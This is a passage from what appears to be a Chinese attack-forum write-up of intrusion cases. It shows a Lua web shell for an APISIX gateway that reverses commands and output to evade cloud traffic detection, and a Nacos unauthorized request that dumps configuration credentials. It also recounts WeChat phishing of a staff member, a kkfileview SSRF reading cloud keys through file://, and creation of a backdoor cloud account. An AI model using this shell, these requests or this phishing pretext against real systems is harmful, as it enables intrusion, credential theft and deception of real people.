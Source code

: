 ![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-e47fa046d5c7f5c636463515a5f9dc7ee7e42ae5.png)

但是后面执行命令，有的时候会被阿里云给拦掉，于是构造lua脚本时把传参和命令输出做了倒转，防止被流量检测到

```lua
local file=io.popen(string.reverse(ngx.req.get_headers()['Authenication']),'r')
local output=file:read('*all')
file:close()
ngx.say(string.reverse(output))
```

由于该apisix集群部署管理了28个子域的服务，所以成功拿下28个子域Rce

![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ccaeac0bf9d4eae19bfb71c982ceae9b26afeeb8.png)

案例三、某开发商Nacos未授权访问读取配置信息到精准钓鱼进入内网
---------------------------------

利用nacos未授权访问，从CONFIG.INFO读取config信息

很幸运，其中包含公有云数据库凭据

```php
/nacos/v1/cs/ops/derby?sql=select+*+from+CONFIG_INFO+st
```

![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-fbef6ac5e12df760f641ba5c405a3ae1d1b7bffd.png)

可惜试了一下都配了策略，没法外网直接连过去

但是...却发现了config信息中，出现了某系统的一个手机号  
![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-2171693e444067c27b12667335e1c2d1d1716897.png)

随后加上微信钓鱼，以系统升级为由，成功拿到权限

![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-89424891eba5f3f3e865393e9e70e564e73b6da2.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-36b43c9d397bfd6f825977fd0bbbed678e0bc8df.png)

案例四、某国企-从一个任意文件读取到SSO沦陷
-----------------------

某国企子域的资产，发现使用了kkfileview开源项目

翻了一下历史issue，存在全回显的ssrf，在目标上验证成功  
![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-02eea7f981611a2a427cf256bdee6d1dfd64fcd1.png)

![image-20231120151135911](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-293ff16fe437d85494dff9a2bae4764070e1e73a.png)

同时很幸运，这个点支持file://协议，随后通过file协议读取到网站配置文件，拿到了目标的AK,SK

![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9377ad8ca30fd4d3cfe070accd26498653074862.png)

使用阿里云的Cli创建后门账户，接管目标公有云  
![img](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-af4602c7c498686ba25f5c2fc1e0562ec658c912.png)
